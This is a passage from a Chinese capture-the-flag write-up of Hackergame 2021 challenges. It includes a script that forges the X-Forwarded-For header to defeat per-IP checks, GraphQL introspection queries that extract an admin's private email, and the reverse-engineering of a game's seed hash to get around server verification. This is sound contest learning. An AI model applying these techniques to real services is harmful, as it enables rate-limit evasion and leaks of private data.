为了利用好 `terminfo`，终端模拟器在启动时会设置一个 `TERM` 环境变量，然后 `ncurses` 会根据这个环境变量的值，去 `terminfo` 数据库中查找对应的终端，并尝试输出最适合这个终端的转义序列。

不过，由于 `ncurses` 历史悠久，它的 api 较为难以使用，文档也十分繁杂难以阅读。考虑到开发的难度，现在也有大量应用程序并不愿使用 `ncurses` 和 `terminfo` 来编写终端应用程序，而是另辟蹊径。比如 [纯 python 库 `prompt-toolkit`](https://github.com/prompt-toolkit/python-prompt-toolkit) 就是个例子。如果你正在使用 IPython、或者 mycli 之类的工具，那么你实际上已经在使用 `prompt-toolkit` 了。它的 api 较为简洁易用，而我介绍它还有一个十分重要的原因是，这个库并非基于 `terminfo`，而是自己编写了 ANSI 转义序列的实现。在它的源码的 [input](https://github.com/prompt-toolkit/python-prompt-toolkit/tree/master/prompt_toolkit/input) 和 [output](https://github.com/prompt-toolkit/python-prompt-toolkit/tree/master/prompt_toolkit/output) 目录中就可以看到它的实现，可以算是一个较为简单易读的参考。

#### 其它资源

在 11 月 2 日一位朋友给我推荐了一篇介绍终端模拟器的文章：[*Anatomy of a Terminal Emulator*](https://www.poor.dev/terminal-anatomy/)，是用 rust 语言进行代码演示的。这里还有 [hacker news 上的链接](https://news.ycombinator.com/item?id=29080561)。

如果要深究终端模拟器的具体实现的话，[suckless](https://suckless.org/) 的 [simple terminal](https://st.suckless.org/) 也是不错的例子，这是一个用纯 C 写成的终端模拟器，不包括与 X11 绑定的代码的话总共大约两千行 C 代码。

## 第7题：旅行照片

这一题没太多可说的，官方题解已经足够详细了。就是吐槽一下，我一开始看到这是海边，就去百度地图翻海岸线找与照片上形状类似的岛，结果把中国海岸线翻了两遍都没找到（手动喷水.jpg）

回过头来冷静一下，决定跟着一开始的直觉走——这个肯德基的颜色感觉很特殊，是偏绿色的（不要吐槽为什么说是绿色，在阳光照耀下，这和那大海的颜色一比不就是绿色吗），于是去搜索“海边 绿色 KFC”，还真搜到了些只提供绿色食品的 KFC，但这不是我要找的啊 (╯‵□′)╯︵┻━┻ 看到相关搜索里有蓝色的 KFC 照片，就点进去看了一下，接下来的路径就和大部分人一样了，找到了小红书上的网红打卡点，于是后面的都迎刃而解了。

## 第8题：FLAG 助力大红包

这一题挺有趣的，它要求使用所有 /8 网段的 ip 进行助力，当我注意到这个以后很快意识到，现实中是不可能真的用范围这么广的 ip 去发起请求的（不论是找代理服务器还是找人都不现实），于是思路就很自然地转向了伪造 ip 地址。

我一开始的思路是，可能需要在 ip 协议上做文章，但边搜索边想，我想到 HTTP 是基于 tcp 的协议，而 tcp 需要三次握手。如果伪造了 ip 地址，那么就像一封伪造了发信人地址的信件一样，不可能收到对方的回信（因为对方的回信寄到伪造的那个地址去了），那么 tcp 握手自然也不可能建立，也不可能发起 HTTP 请求了。其中一部分印象应该是来自于之前在 B 站上看过的 [这个视频](https://www.bilibili.com/video/av717573695) 。

恰好这时我正在阅读 [一篇知乎问题](https://www.zhihu.com/question/34570444) 下的答案，前面的都没什么帮助，直到 [这个回答](https://www.zhihu.com/question/34570444/answer/162949938)：

> 1.TCP协议不可以，因为要握手之后才通信
> 2.UDP理论上可以，因为你只管发就行。但是现在网关都有检查，你发出去，网关不认不给你发
> 3.http看具体业务怎么取IP,比如经典的业务取XFF头作为用户ip就导致可以伪造

XFF 头？这是什么东西？经过搜索，很容易就找到了，这是 `X-Forwarded-For`。于是问题迎刃而解。脚本如下：

```python
import sys
import re
import time
import requests
import tqdm

def main(url):
    for i in tqdm.tqdm(range(256)):
        ip = f"{i}.2.3.4"
        headers = {"X-Forwarded-For": ip}
        data = {"ip": ip}
        for i in range(5):
            r = requests.post(url, headers=headers, data=data)
            if re.search("重复", r.text):
                break
            if re.search("成功", r.text):
                break
            if re.search("操作速度太快了，请稍后再试", r.text):
                time.sleep(1)
        else:
            # python 的 for-else 语法，如果循环正常走完而没有 break 退出，
            # 那么就会执行 else 块的代码
            print("失败！")
            raise RuntimeError(r.text)


if __name__ == "__main__":
    main(sys.argv[1])
```

做出来以后看着 `tqdm` 进度条走完的过程真的舒服（

## 第9题：Amnesia

这题只做了第一问，第一问还是比较简单的，许多学过 C 语言的同学应该都会做。第二问我直接没有尝试。

### 第1小题：轻度失忆

在 C 语言中，字符串字面值通常是编译进只读数据段（`.rodata` 段）的，所以正常的 `printf("Hello, world!")` 当然不行。而静态变量则是在 `.data` 段。那么很自然的，不把字符串数据写在那里，而是直接写在代码段不就行了吗？

于是写了一个简单的脚本来生成重复代码（虽然没有必要）：

```python
from pathlib import Path
from typing import TextIO

c_filepath = Path(__file__).with_suffix(".c")
hello = "Hello, world!"
c_start = f"""\
#include <unistd.h>

int main(void)
{{
    char hello[{len(hello)}];
"""
c_end = f"""\
    write(1, hello, {len(hello)});
    return 0;
}}
"""

def code_gen(file: TextIO):
    file.write(c_start)
    for i, c in enumerate(hello):
        file.write(f"    hello[{i}] = '{c}';\n")
    file.write(c_end)
    file.flush()

if __name__ == "__main__":
    with open(
        c_filepath, "w", encoding="utf-8",
        newline="\n",  # 避免在 Windows 下写入 "\r\n"
    ) as f:
        code_gen(f)
```

生成的代码如下：

```C
#include <unistd.h>

int main(void)
{
    char hello[13];
    hello[0] = 'H';
    hello[1] = 'e';
    hello[2] = 'l';
    hello[3] = 'l';
    hello[4] = 'o';
    hello[5] = ',';
    hello[6] = ' ';
    hello[7] = 'w';
    hello[8] = 'o';
    hello[9] = 'r';
    hello[10] = 'l';
    hello[11] = 'd';
    hello[12] = '!';
    write(1, hello, 13);
    return 0;
}
```

一开始我脑子一抽用 `printf` 写成了 `printf("%s", hello);` （当然是带了结尾 NUL 字符的）结果不成功，第一反应还以为是 glibc 里 `printf` 依赖了静态变量，然后改成直接调用 `write` 系统调用（虽然实际上还是 libc 的包装函数）了。提交完了才反应过来，`"%s"` 本身已经是字符串字面值了。而实际上因为没有静态链接到 glibc，所以实际上本题中 `objcopy` 也是不会影响到 glibc 的。

这里直接向文件描述符 `1` 也就是标准输出写入，并且没有循环尝试，主要是因为从题目脚本可以看出这里是使用的管道作为标准输出，而在现在的 Linux 内核上内存页通常是 4KiB，而管道缓冲区通常是 16 页也就是 64K，这么短的字符串应该是不会一次性写不全的。

## 第10题：图之上的信息

题目上已经明说了这是一道关于 graphql 的题。如官方题解所说，这是一道很简单的题。所以我在这里更多是分享一下当初走的弯路。

点开网页，根据提示用 guest 用户登录，没什么特别的。那么第一件事就是先拿到 api。

用比赛 token 登录之后，guest 用户登录只是一个很简单的 post 请求：

```python
>>> await client.post("http://202.38.93.111:15001/", data={"username": "guest", "password": "guest"})
<Response [302 FOUND]>
>>> _.text
'<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">\n<title>Redirecting...</title>\n<h1>Redirecting...</h1>\n<p>You should be redirected automatically to target URL: <a href="/notes">/notes</a>. If not click the link.'
```

而示例中的 graphql 请求则是下面这样：

```python
>>> await client.post("http://202.38.93.111:15001/graphql", \
...                   json={"query": "{ notes(userId: 2) { id\ncontents }}"})
...
<Response [200 OK]>
>>> _.json()
{'data': {'notes': [{'id': 2, 'contents': 'Flag 是 admin 的邮箱。'}]}}
```

此前我还从没接触过 graphql，只是听说过这个名字。于是先去官方文档跟着 [教程](https://graphql.org/learn/) 和 [FAQ](https://graphql.org/faq/) 先大概走了一段，没有细读，只是大概了解了一下语法。从中得知，graphql 有一个特点是，请求数据时总是需要显式指明要查询哪些字段，而返回也只会返回那些请求了的字段。

上面示例中请求的 `userId` 是 `2`，那先试试别的序号，比如 `0`：

```python
>>> await client.post("http://202.38.93.111:15001/graphql", json={"query": "{ notes(userId: 0) { id\ncontents }}"})
<Response [200 OK]>
>>> _.json()
{'errors': [{'message': 'This user has no permission to access this.',
   'locations': [{'line': 1, 'column': 3}],
   'path': ['notes']}],
 'data': {'notes': None}}
```

没有权限。尝试删掉括号内的 `userId`：

```graphql
{
    notes {
        id
        contents
    }
}
```

同样没有权限。再试试别的字段：

```graphql
{
    notes(userId: 2) {
        id
        username
    }
}
```

```python
>>> _.json()
{'errors': [{'message': "Cannot query field 'username' on type 'GNote'.",
   'locations': [{'line': 4, 'column': 9}],
   'path': None}]}
```

得到了一个关于类型的报错信息，这个 `GNote` 类型没有要请求的字段。

再试试别的东西，既然有 `userId`，那么或许有个 `user` 可供查询：

```graphql
{
    user
}
```

```python
>>> _.json()
{'errors': [{'message': "Field 'user' of type 'GUser' must have a selection of subfields. Did you mean 'user { ... }'?",
   'locations': [{'line': 2, 'column': 5}],
   'path': None}]}
```

嗯？碰对了，有个 `GUser` 类型。试试它有没有 `username` 字段：

```graphql
{
    user {
        username
    }
}
```

```python
>>> _.json()
{'errors': [{'message': "'NoneType' object has no attribute 'username'",
   'locations': [{'line': 2, 'column': 5}],
   'path': ['user']}],
 'data': {'user': None}}
```

这个报错信息？这明显是 python 的报错信息。难道说这些类型实际上是 python 类型？如果是 python 对象的话，那么就可以用一下投机取巧的方式，比如 `__globals__` 那样的双下划线属性，可以得到一些对象自身的信息，但是几次尝试后也未果。不过，从那些报错中能看出来，graphql 似乎有一套自己的类型系统，会先自己检查请求的字段，而不是直接使用 python `getattr` 那样的属性查询（的确，这样严重泄露内部实现也太不安全了）。

于是，又回头去读了一下官方教程中关于类型系统的部分，但是还是没什么头绪。只好去查各种关于 `graphql auth`, `graphql security` 之类的东西。不过查了好半天，也没什么进展。

正在一筹莫展之际，我突然想到，既然 graphql 要求显式给出所有要请求的字段，那如果有一种方式能查询到所有可供查询的字段，就会非常有帮助了。就像 sqlite 中有一个 `sqlite_master` 表可以获得数据库中所有表的信息那样。在 Google 搜索 `graphql all fields`，很快在 [一个 StackOverflow 问题](https://stackoverflow.com/questions/34199982/how-to-query-all-the-graphql-type-fields-without-writing-a-long-query) 中找到了答案：[内省 (Introspection)](https://graphql.org/learn/introspection/)。竟然就在官方教程里，看来还是前面读文档不认真啊。

读罢，马上来试试：

```graphql
{
    __schema {
        types {
            name
        }
    }
}
```

```python
>>> _.json()
{'data': {'__schema': {'types': [
    {'name': 'Query'},
    {'name': 'GNote'},
    {'name': 'Int'},
    {'name': 'String'},
    {'name': 'GUser'},
    {'name': 'Boolean'},
    {'name': '__Schema'},
    {'name': '__Type'},
    {'name': '__TypeKind'},
    {'name': '__Field'},
    {'name': '__InputValue'},
    {'name': '__EnumValue'},
    {'name': '__Directive'},
    {'name': '__DirectiveLocation'}
]}}}
```

不错！拿到了所有类型的名字。来看看 `GNote` 有哪些字段吧：

```graphql
{
    __type(name: "GNote") {
        name
        kind
        fields {
            name
            type {
                name
                kind
            }
        }
    }
}
```

```python
>>> _.json()
{'data': {'__type': {
    'name': 'GNote',
    'kind': 'OBJECT',
    'fields': [
        {'name': 'id', 'type': {'name': 'Int', 'kind': 'SCALAR'}},
        {'name': 'contents', 'type': {'name': 'String', 'kind': 'SCALAR'}}
    ]
}}}
```

`GNote` 没有别的字段了。再看看 `GUser`：

```python
>>> _.json()
{'data': {'__type': {
    'name': 'GUser',
    'kind': 'OBJECT',
    'fields': [
        {'name': 'id', 'type': {'name': 'Int', 'kind': 'SCALAR'}},
        {'name': 'username', 'type': {'name': 'String', 'kind': 'SCALAR'}},
        {'name': 'privateEmail', 'type': {'name': 'String', 'kind': 'SCALAR'}}
    ]
}}}
```

很好！`privateEmail` 就是我们想要的。先来试试 `id` 为 `2` 的 `guest` 用户：

```graphql
{
    user(id: 2) {
        id
        username
        privateEmail
    }
}
```

```python
>>> _.json()
{'data': {'user': {'id': 2,
   'username': 'guest',
   'privateEmail': 'guest@example.com'}}}
```

再试试 `id` 为 `0`，发现没查到。再试试 `1`，如愿得到了结果：

```python
>>> _.json()
{'data': {'user': {'id': 1,
   'username': 'admin',
   'privateEmail': 'flag{dont_let_graphql_l3ak_data_decbf9cd4f@hackergame.ustc}'}}}
```

所以，本题其实就是一个 graphql 的内省问题，如果之前就了解 graphql 的人应该可以分分钟做出来。

## 第13题：赛博厨房

这一题是我花时间最长的一题，做出了前三问。第 3 问做出来之后，最后一问没有尝试，就去做别的题了，可惜别的题也没再做出来了。

初见这题就觉得非常有意思，有一套指令，可以移动位置，通过拿起放下食物、拿起放下盘子来存储状态，尤其是还有一个判断跳转指令，可以做 `if-elif-else` 以及 `while` 语句了。虽然我从来没接触过汇编或者其它与此相关的领域，但是单单阅读 cpython 字节码指令的经验就足以让我对这题感到非常亲切了。

当我开始做这道题时，以及有很多人做出来了。可以看到前两问做出来的人非常多，而后两问则寥寥无几。我觉得这应该是一道利用这些指令来编程的题，后两问应该涉及较为复杂的程序、难以通过手写指令来完成，所以做出来的人很少。于是我决定挑战一下。

因为这些指令都是中文的，而写指令时这指令这么长，还需要来回切输入法，非常不方便，于是先写了一个小脚本用来生成中文版指令：

（完整代码详见 [`./src/q13_赛博厨房`](./src/q13_赛博厨房) 目录）

```python
# gen_code.py
class CodeGenerator:

    def _write(self, data: str) -> None:
        """向文件对象中写入字符串"""

    def _up(self, steps: int):
        self._write(f"向上 {steps} 步\n")

    def up(self, steps: int):
        self._up(steps)

    def stand_still(self):
        self._up(0)

    def down(self, steps: int):
        self._write(f"向下 {steps} 步\n")

    def left(self, steps: int):
        self._write(f"向左 {steps} 步\n")

    def right(self, steps: int):
        self._write(f"向右 {steps} 步\n")

    def drop(self, items: int):
        self._write(f"放下 {items} 个物品\n")

    def get(self, items: int):
        self._write(f"拿起 {items} 个物品\n")

    def drop_plate(self):
        self._write("放下盘子\n")

    def get_plate(self):
        self._write("拿起盘子\n")

    def _if_ge_and_goto(self, items: int, rel_lineno: int):
        if rel_lineno == 0:
            raise ValueError("`rel_lineno` requires a non-zero interger.")

        self._write(f"如果手上的物品大于等于 {items} "
                    f"向{'上' if rel_lineno < 0 else '下'}"
                    f"跳转 {abs(rel_lineno)} 行\n")

    def if_ge_and_goto(self, items: int, rel_lineno: int):
        if items <= 0:
            raise ValueError(
                f"`items` requires a positive integer, but got {items}.")

        self._if_ge_and_goto(items, rel_lineno)

    def goto(self, rel_lineno: int):
        self._if_ge_and_goto(0, rel_lineno)
```

接下来，就正式开工了。

### Level 0

第 1 题很简单，只有两种食材，只需要移动到目标位置、然后回到锅里放下、进行两次就够了。我做题时比较幸运，甚至没发现第 1 题的菜谱也是随机的，只按照一个菜谱 (物品 ID: 0, 1) 写好程序之后，直接就运行成功并拿到 flag 了。比赛结束后看到题解我才知道这题还有 4 种可能。然而，福兮祸所伏，正是这个幸运导致了后面白白浪费了不少时间。

下面是当时做 Level 0 的代码：

```python
# level_0.py
from code_gen import CodeGenerator

def gen_code(g: CodeGenerator):
    g.right(1)
    g.get(1)
    g.down(1)
    g.left(1)
    g.drop(1)
    g.right(2)
    g.up(1)
    g.get(1)
    g.down(1)
    g.left(2)
    g.drop(1)
```

### Level 1

第 2 题需要往锅里放许多个同一种类的食材。由于锅里的物品每次只能放 1 个，而不能一次放很多个，所以这一题等于是把“用循环”三个字拍在脸上了，所以我没有尝试硬编码（同样是赛后看题解才知道硬编码会超出指令数限制）。

其实，有时候在描述做某些事情的步骤时，我们就能见到这样最原始的，用判断跳转来表示循环的例子。比如“第一步 xxx，第二步 xxx，第三步如果 yyy 就跳回第一步再做一次”。这实际上就是一个 `do-while` 结构。

先看一下需要循环多少次：

```python
>>> len([0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0])
73
```

接下来，思路就很清晰了：先拿 73 个物品，然后来到锅前，放下 1 个物品，如果手里物品**大于等于** 1，就跳到上一步（继续放物品），放完以后条件判断不成立，程序自然结束。需要注意的是，这里的判断跳转指令，判断的条件是大于或等于，也就是说，如果与 0 比较，那么它将永远成立，变成一个无条件跳转。

代码如下：

```python
# level_1.py
from code_gen import CodeGenerator

def gen_code(g: CodeGenerator):
    g.right(1)
    g.get(73)
    g.down(1)
    g.left(1)
    # 往锅里放菜时一次只能放下一个物品
    g.drop(1)
    g.if_ge_and_goto(1, -1)  # 若大于等于 1，则向上跳转一条指令，负行号表示向上
```

### Level 2

第三问，是本题的第一个重头戏。然而我在这里犯了一个大错，在还没研究清楚游戏机制的情况下，就去写了很多代码。

#### 弯路

这一段主要写我当时走的弯路，如果对此不感兴趣的话可以直接跳到“失败但有价值的尝试”一节开始。

由于我误以为本题应该是在厨房游戏规则之内解决问题，而且需要利用手和地板作为“寄存器”来进行较为复杂的“编程”，所以我的思路是，需要先写出一个可组合的代码生成器，能够执行等价于 `if-elif-else` 分支判断语句、以及 `while` 循环语句的功能，于是我在这个思路上编写了大量代码。（至少对 7 天的比赛来说算是“大量”了。）

一开始我的思路是，让每种代码生成器都返回一个可迭代对象，可迭代对象在迭代中会产生一个个操作码对象，通过对其进行迭代就可以生成最终的指令，在 python 代码中表示为 `Iterable[CommandCode]` 类型。而 `if` 语句和 `while` 语句需要在中间嵌入一段代码块，所以一开始我是在生成 `if` 的代码生成器函数的参数中要求传入一个回调函数，回调函数本身应该返回一个 `Iterable[CommandCode]`。

然而写了一半才发现，回调函数非常难以组合。而可迭代对象本身就可以组合了，于是把要求传入回调函数的地方改为直接传入 `Iterable[CommandCode]`。

经过一段时间的编写，这一部分基本完工了（完整代码见 [`src/q13_赛博厨房/compiler.py`](./src/q13_赛博厨房/compiler.py)）。比如下面这个例子：

```python
class Condition:
    """用来表示条件判断的对象
    判断当手上的物品小于 `less_than` 成立时，需要执行的是 `then` 对应的代码
    """
    less_than: int
    then: Iterable[CommandCode]

    def __init__(self, *, lt: int, then: Iterable[CommandCode]):
        self.less_than = lt
        self.then = then

class IfCondition(Condition):
    pass

def if_lt_else(
    if_: IfCondition,
    *,
    else_: Iterable[CommandCode] = (),
) -> List[CommandCode]:
    pass

def do_while_ge(*,
    do: Iterable[CommandCode],
    while_ge: int,
) -> List[CommandCode]:
    pass

from itertools import chain  # chain 可以方便地组合多个可迭代对象

# move_to, get, drop 函数都返回一个 Iterable[CommandCode]

def test_if_and_loops1() -> List[CommandCode]:
    return if_lt_else(
        # 如果手上物品小于 8 个，则执行下面的代码
        IfCondition(lt=8, then=chain(
            # 从坐标 (0, 0) 移动到 (2, 2)
            move_to((0, 0), (2, 2)),
            # 拿起 2 个物品
            get(2),
        )),
        # 否则（即大于或等于 8 个）则执行下面的代码
        else_=chain(
            move_to((0, 0), (1, 1)),
            do_while_ge(do=chain(  # 先执行一次循环体
                move_to((0, 0), (1, 0)),
                # 放下 1 个物品
                drop(1),
            ), while_ge=1)  # 如果手上物品大于等于 1，则再执行一次
        )
    )
```

```python
# 示例：
>>> test_if_and_loops1()
[(CodeIndex.IF_GE_AND_GOTO, (8, 5)),  # 如果大于等于 8，则向下跳转 5 行
 (CodeIndex.RIGHT, (2,)),
 (CodeIndex.DOWN, (2,)),
 (CodeIndex.GET, (2,)),
 (CodeIndex.GOTO, (6,)),  # 向下跳转 6 行
 (CodeIndex.RIGHT, (1,)),
 (CodeIndex.DOWN, (1,)),
 (CodeIndex.RIGHT, (1,)),
 (CodeIndex.DROP, (1,)),
 (CodeIndex.IF_GE_AND_GOTO, (1, -2))]  # 如果大于等于 1，则向上跳转 2 行
```

接着，需要一个用于把 `CommandCode` 转换为对应的真实命令的函数（见 [`src/q13_赛博厨房/assembler.py`](./src/q13_赛博厨房/assembler.py)）。而在这个问题上，因为我看过一篇介绍 [如何用 mypy 进行穷尽性检查](https://hakibenita.com/python-mypy-exhaustive-checking) 的文章，还有一篇 [用 mypy 来改善错误处理](https://beepb00p.xyz/mypy-error-handling.html) 的文章，所以打算尝试一下这个穷尽性检查。

经过各种尝试，发现跳转表的形式没办法被 mypy 识别，于是只好用一连串 `if elif else` 来判断。然而，经过反复尝试，无论如何 mypy 也推断不出应该与每个 `CodeIndex` 匹配的数据是长度为几的元组，而只能检查 `CodeIndex` 枚举中的每种情况是否都有一个对应分支去处理。这个尝试的过程又浪费了大量的时间，最终一无所获，只好放弃。

直到这时，我还没有意识到问题的严重性，前面的花架子对于解题实际上没有任何实质性的帮助。

#### 碰壁

再次阅读 Level 2 的题目，发现是一个长度为 6 的菜谱，于是想了想，根据菜谱用很简单的代码生成了一段命令，感觉这样问题有些过于简单，前面写的代码生成器没有起到多少帮助。

把生成的命令粘贴进“编写程序”框，保存并点击下一天之后，才被当头一棒：菜谱改变了，前面硬编码的程序失效了。

抱着试一试的心态，又点了几次“下一天”，然而菜谱没有发生变化。我又根据新菜谱生成了一段新程序并保存，点击“下一天”后，菜谱又刷新了。

这时开始，我又走上了第二条弯路，或者说不完全算弯路，但是对于 Level 2 没有什么帮助。我这时认为，应该是需要在通过放下食物或者盘子，在同一天内、两次程序执行之间传递状态，以此来将菜谱输入给程序，这样程序才能按照正确的菜谱执行。

于是我又反复尝试如何在两次执行间传递状态，花了很长时间，然而才发现，不论是放进锅的食物、还是机器人的位置，都会在程序开始执行前清零。而食物和盘子，则根本没法放在地上。

我想到可能是空地的原因，便又回到 Level 0 尝试，发现食物直接放下以后根本没法重新捡起来，只有盘子可以与其中的食物可以放在空地上。知道这时，我才明白 3 个示例的意思，Level 2 是没办法在两次执行程序之间传递状态的。那么，完全没法向程序输入菜谱，就意味着没有游戏规则内的常规手段能解决问题了。

#### 失败但有价值的尝试

既然如此，那么也许只能试试暴力破解了。从前面的尝试中看出，菜谱应该总共有 32^6 种可能性。在看到公告更新之后，我觉得以解题为目的的暴力尝试应该不算违规，于是打算试试。

这时我才第一次打开 F12，准备扒下本题的 api。这才发现，一般的游戏操作是不会产生网络请求的，各种计算都发生在前端。于是猜想，应该是在前端判断游戏成功以后，给后端发送请求。

先阅读了主页的源码，发现在 [`runProgram` 函数](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E8%B5%9B%E5%8D%9A%E5%8E%A8%E6%88%BF/src/cybercook/frontend/index.html#L265-L295) 中有一个判断成功并向后端请求 flag 的逻辑。而 post 请求中，`token`, `level`, `programs`, `execution` 都不难理解，唯独 `seed` 不知道如何获得。不过，阅读源码上下发现，`vm` 似乎是一个核心对象，上面 `CyberCook.step` 执行程序的逻辑也需要传递这个 `vm`，那么就在控制台把它 `app.vm` 打印出来看看。

点开每个属性后，发现有一个 `recipe` 属性，是一个长度为 6 的数组：



这不就是菜谱吗？

于是，在控制台把它改成 `[0]`：

```js
> app.vm.recipe = [0]
[0, __ob__: we]
```

然后编写一个最简单的程序来完成它，如愿看到了浏览器的弹窗 `You win!`，然而紧接着又弹了一个窗，说：`No win. The recipe should be [3,6,26,10,11,18].`。看来后端会对它做校验啊。不过没关系，我们已经在浏览器中看到了这个向 `/verify` 发起的 POST 请求，看到了其中的 `seed`。并且看到它返回了一个 json：

```json
{
    "status": "error",
    "message":"No win. The recipe should be [3,6,26,10,11,18]."
}
```

于是先简单封装了一下这个请求，以便调用（[完整代码见 `src/q13_赛博厨房/webapi.py`](./src/q13_赛博厨房/webapi.py)）:

```python
import re
import json
import httpx

def handle_response_json(res: dict) -> Optional[dict]:
    if res["status"] == "error":
        if match := re.search(
            r"No win. The recipe should be (\[(\d+\,)*\d+\])\.",
            res["message"]
        ):
            res["recipe"] = json.loads(match.group(1))
            return res

    return None

class CyberCookApi:

    def __init__(self, url: str, level: int, token: str):
        self.url = url
        self.level = level
        self.token = token
        self.client = httpx.AsyncClient()

    async def verify(
        self,
        programs: List[str],
        executions: List[int],
        seed: str
    ) -> dict:
        req_json = {
            "level": self.level,
            "token": self.token,
            "programs": programs,
            "executions": executions,
            "seed": seed,
        }
        r = await self.client.post(self.url, json=req_json)
        try:
            res_json: dict = r.json()
        except Exception as e:
            raise ValueError(r, r.text) from e

        if handled_json := handle_response_json(res_json.copy()):
            return handled_json

        raise ValueError(r, res_json)
```

接着，在 IPython 中尝试一下：

```python
>>> import webapi
>>> api = webapi.CyberCookApi("http://202.38.93.111:12077/verify", 2, token)
>>> programs = [...]  # 此处省略
>>> seed = "76c996ee102c1c53c97be7a2e92a7a6c07cfa9b5b15cabe2b281877565904ecb"
>>> await api.verify(programs, [0], seed)
ValueError: (<Response [200 OK]>, {
    'status': 'error',
    'message': 'Seed is not correct, should be b63878703ea7f77d0f818eb8b9334095d781a1818aafb538e4e3207851b9f561.'
})
```

嗯？seed 怎么不对？先改改代码，处理一下 seed 不对的情况：

```python
def handle_response_json(res: dict) -> Optional[dict]:
    if res["status"] == "error":
        if match := re.search(
            r"Seed is not correct, should be ([0-9a-f]+)\.",
            res["message"]
        ):
            res["seed"] = match.group(1)
            return res

        if match := re.search(
            r"No win. The recipe should be (\[(\d+\,)*\d+\])\.",
            res["message"]
        ):
            res["recipe"] = json.loads(match.group(1))
            return res

    return None
```

接着 `importlib.reload` 重新导入模块，再试。经过几次试验，发现当 `programs` 不变时，服务端返回的 `seed` 也不变，而一旦变了则 `seed` 也会变。而 `seed` 不变的话菜谱也是确定的。这让我回想起前面源码中的这一行：

```js
seed: CyberCook.genRandomState(this.level, this.programsBackup.map(i => i.content)).nhash,
```

看来，种子应该是根据 `programs` 的某种哈希生成的。那么，暴力破解就有了可能：**用两个程序，一个以某个确定的菜谱硬编码，另一个则每次稍微修改一点来让哈希发生改变。** 然后提交请求，再根据服务端传回的 seed 发起请求，直到成功。

我按照这个思路编写了程序，但是到运行的时候才发现：网络请求的性能极差，需要上万小时才能运行 `32**6` 次，即使并发请求也无济于事。看来这个思路是失败了，这下就不得不深入 js 源码，探究一下它究竟用的是什么 hash 算法，并在本地计算了。

#### 正途

只好硬着头皮去阅读 js 源码了。但是，上面的那个 `CyberCook` 究竟是在哪里定义的？在浏览器中可以看到，`/static/dist/` 目录中有一个 `cybercook-bundle.js`，虽然我几乎没学过 js，但这个我听说过。

在之前开源游戏[“人生重开模拟器”](https://github.com/VickScarlet/lifeRestart)突然爆火的那天，为了轻松打出隐藏剧情，我尝试改过它的源码。在过程中我了解到，`bundle` 是一个用来把多个 js 文件打包成一个单独的 js 文件的工具，并且还会进行混淆。“人生重开模拟器”就是用它来部署项目的。点开 `cybercook-bundle.js` 看看，果然是混淆过的代码。

可是我可不想去读混淆过的代码，这也太头疼了。我就是因为代码被混淆过才放弃 Minecraft 那题的。要是因为这个原因这题也做不出来那就太亏了。所以我打算继续找找看还有没有别的没混淆过的代码。

一番寻找后，我发现在 `webpack://` 中竟然有完整的 ts 源码！我听说过 typescript，它是静态类型化的 js，但是浏览器不能直接执行它，需要编译成 js 后才能在浏览器执行。那么为什么浏览器里能看到 ts 源码呢？不过这时候管不了那么多了，先读一读再说。

在 `./src/index.ts` 中看到，`CyberCook` 就是 `CyberCookLocalApi` 的别名（[见源码第 8 行](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E8%B5%9B%E5%8D%9A%E5%8E%A8%E6%88%BF/src/cybercook/src/index.ts)）：

```ts
window.CyberCook = CyberCookLocalApi;
```

看到同级目录下还有一个 `localApi.ts`，想必就在这里了。在这里我找到了 [`getRandomState` 方法](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E8%B5%9B%E5%8D%9A%E5%8E%A8%E6%88%BF/src/cybercook/src/localAPI.ts#L31-L37)，而其中又是调用了 `fakeVM` 的一个方法来生成 `nhash` 的：

```ts
let nhash = CyberCookLocalApi.fakeVM.getInstrsHashes(programs);
```

而 `fakeVM` 则是一个 `CyberCookVM` 的示例（[见源码](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E8%B5%9B%E5%8D%9A%E5%8E%A8%E6%88%BF/src/cybercook/src/localAPI.ts#L12)）：

```ts
fakeVM: new CyberCookVM(levels[0].state, levels[0].state.getRecipe()),
```

那么它应该是在 `vm.ts` 中了。终于 [在这里](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E8%B5%9B%E5%8D%9A%E5%8E%A8%E6%88%BF/src/cybercook/src/vm.ts#L156-L165) 揭开了 hash 算法的真面目：

```ts
public getInstrsHashes(programs: Array<string>) {
    let hashes = [];
    for (let i = 0; i < programs.length; i++) {
        const content = programs[i].trim();
        const hash = CryptoJS.SHA256(content).toString(CryptoJS.enc.Hex);
        hashes.push(hash);
    }
    let hashesConcat = hashes.join('\n');
    return CryptoJS.SHA256(hashesConcat).toString(CryptoJS.enc.Hex);
}
```

原来其实非常简单，就是分别把每个程序两头的空白去掉，计算字符串的 sha256，然后得到十六进制哈希摘要的字符串形式，再把每个 hash 字符串用换行符 `\n` 合并起来，对得到的字符串再计算一次 sha256。

考虑到 `utf-8` 是 Unicode 字符串的事实标准，猜测应该是对 `utf-8` 编码的字符串进行 sha256 计算的。于是我很快写出了等价的 python 代码（[见 `src/q13_赛博厨房/level_2.py`](./src/q13_赛博厨房/level_2.py)）：

```python
from hashlib import sha256

def calc_hash(programs: List[str]) -> str:
    hashes = [sha256(p.strip().encode("utf-8")).hexdigest() \
              for p in programs]
    h = sha256("\n".join(hashes).encode("utf-8")).hexdigest()
    return h
```

搞定。那么还有一个问题是，如何通过 `seed` 来计算出菜谱 `recipe`？这个问题还要继续阅读源码。

计算新的 `recipe` 应该是在前进一天时发生的。看到 [`index.html` 中的 `nextDay` 方法](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E8%B5%9B%E5%8D%9A%E5%8E%A8%E6%88%BF/src/cybercook/frontend/index.html#L296-L312)：

```js
// 第 298 行
const vm = CyberCook.nextDay(this.level, this.programs.map(i => i.content));
```

